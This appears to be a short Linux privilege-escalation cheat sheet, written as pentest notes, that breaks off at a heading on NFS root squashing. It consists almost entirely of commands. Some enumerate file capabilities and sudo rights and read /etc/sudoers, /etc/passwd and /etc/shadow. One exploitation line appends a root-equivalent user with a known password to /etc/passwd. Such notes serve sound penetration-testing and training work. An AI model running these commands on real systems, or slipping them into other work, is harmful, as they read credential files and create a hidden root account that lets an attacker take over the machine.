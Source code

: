 ### Capabilities [PrivEsc]

- > Enumeration

```
getcap -r / 2>/dev/null

```

- > Exploitation

https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]

```
sudo -l

```

or

```
cat /etc/sudoers

```

- > Exploitation

https://gtfobins.github.io/

### Run commands as another user with permission through sudo [PrivEsc]

```
sudo -u <username> <command>

```

### Weak File Permissions / Passwd Writabble [PrivEsc]

- > Enumeration

```
ls -la /etc/passwd
ls -la /etc/shadow

```

- > Exploitation

```
echo "user:$(openssl passwd password123):0:0:root:/root:/usr/bin/bash" >> /etc/passwd

```

### NFS Root Squashing

- > Detection - VM Owned
